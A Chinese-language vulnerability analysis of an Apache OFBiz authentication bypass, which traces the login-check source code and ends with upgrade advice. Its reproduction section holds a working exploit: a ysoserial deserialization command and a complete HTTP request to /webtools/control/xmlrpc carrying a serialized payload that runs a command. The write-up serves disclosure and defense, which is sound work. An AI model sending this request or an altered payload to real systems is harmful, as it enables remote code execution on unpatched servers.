

这也就是第二个限制，针对CVE-2020-9496漏洞的补丁，官方是通过增加auth来进行鉴权的，如下是controller.xml文件中的相关配置。

```plain
<request-map uri="xmlrpc" track-serverhit="false" track-visit="false">
<security auth="true"/>
<event type="xmlrpc"/>
<response name="error" type="none"/>
<response name="success" type="none"/>
</request-map>
```

当auth为true时，如果在未登录状态下进行请求，将会被转发到登录页面。

```plain
<xs:attribute type="xs:boolean" name="auth" default="false">
    <xs:annotation>
        <xs:documentation>
            If auth=true, when you hit the request if you are not logged in you will be forwarded to the login page.
        </xs:documentation>
    </xs:annotation>
</xs:attribute>
```

将断点打到\`org.apache.ofbiz.webapp.control.ControlServlet#doGet\`方法，继续朝下跟，在\`doGet\`方法中，请求会由\`handler.doRequest\`处理，进入这个方法。

```plain
try {
    // the ServerHitBin call for the event is done inside the doRequest method
    handler.doRequest(request, response, null, userLogin, delegator);
}
```

在其中会获取request-map配置，根据如上配置，\`securityAuth\`的值将会为\`true\`，这样便会进行安全检查，\`extensionCheckLogin\`方法将会被调用用于安全检查。而在\`runEvent\`方法中，会通过反射机制跳转到相应的类进行操作。



```plain
/** Find the event handler and invoke an event. */
public String runEvent(HttpServletRequest request, HttpServletResponse response,
        ConfigXMLReader.Event event, ConfigXMLReader.RequestMap requestMap, String trigger) throws EventHandlerException {
    EventHandler eventHandler = eventFactory.getEventHandler(event.type);
    String eventReturn = eventHandler.invoke(event, requestMap, request, response);
    if (Debug.verboseOn() || (Debug.infoOn() && "request".equals(trigger))) Debug.logInfo("Ran Event [" + event.type + ":" + event.path + "#" + event.invoke + "] from [" + trigger + "], result is [" + eventReturn + "]", module);
    return eventReturn;
}
```

继续跟进，进入到\`extensionCheckLogin\`方法。

```plain
public static String extensionCheckLogin(HttpServletRequest request, HttpServletResponse response) {
    for (LoginCheck check: ServiceLoader.load(LoginCheck.class)) {
        if (!check.isEnabled()) {
            continue;
        }
        String result = check.associate(request, response);
        if (result != null) {
            return result;
        }
    }
    return checkLogin(request, response);
}
```

在其中存在一个\`checkLogin\`方法，进入之。



存在一个if条件判断，这里不能使这一整条条件判断为真值，否则就会返回error。在或运算中，需确保每一项都为false，才能使整条条件判断的值为false，对于前两项判断式的值是可控为false的，现在的关键就在于第三项判断式，也就是\`login\`方法。

```plain
// check parameters
username = request.getParameter("USERNAME");
password = request.getParameter("PASSWORD");
token = request.getParameter("TOKEN");
// check session attributes
if (username == null) username = (String) session.getAttribute("USERNAME");
if (password == null) password = (String) session.getAttribute("PASSWORD");
if (token == null) token = (String) session.getAttribute("TOKEN");

if (username == null
        || (password == null && token == null)
        || "error".equals(login(request, response))) {

    // make sure this attribute is not in the request; this avoids infinite recursion when a login by less stringent criteria (like not checkout the hasLoggedOut field) passes; this is not a normal circumstance but can happen with custom code or in funny error situations when the userLogin service gets the userLogin object but runs into another problem and fails to return an error
    request.removeAttribute("_LOGIN_PASSED_");
    // ...

    return "error";
}
```

那便进入到\`login\`方法，跟到下面发现如下关键代码，当requirePasswordChange为Y时，便会返回requirePasswordChange至\`checkLogin\`中的条件判断语句中。

```plain
boolean requirePasswordChange = "Y".equals(request.getParameter("requirePasswordChange"));
if (!unpwErrMsgList.isEmpty()) {
    request.setAttribute("_ERROR_MESSAGE_LIST_", unpwErrMsgList);
    return  requirePasswordChange ? "requirePasswordChange" : "error";
}
```

这样\`"error".equals(login(request, response))\`的值就会为false，从而决定了这一整条条件判断的值为false。

漏洞复现

使用Ysoserial生成反序列化Payload。

````plain
```bash
java -jar ysoserial.jar CommonsBeanutils1 "open -a Calculator" | base64 | tr -d "\n" | pbcopy
````

将如上生成的内容放置在如下 HTTP 请求正文的\`<serializable>\`中，发送请求将会执行预期的\`open -a Calculator\`命令。‍

```plain
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Connection: close
Content-Type: application/xml
Content-Length: 3982

<?xml version="1.0"?><methodCall><methodName>Test</methodName><params><param><value><struct><member><name>rce</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqjK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAeeXNvc2VyaWFsL1B3bmVyNDk3OTQ2MTA4NzQyNjI1AQAgTHlzb3NlcmlhbC9Qd25lcjQ5Nzk0NjEwODc0MjYyNTsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAvAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAA0AA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA4AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAl1cQB+ABAAAAHUyv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPAAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQABFB3bnJwdwEAeHEAfgANeA==</serializable></value></member></struct></value></param></params></methodCall>
```

  

修复建议

目前官方已发布新版本以修复这个安全问题，请通过如下链接下载安全版本：https://ofbiz.apache.org/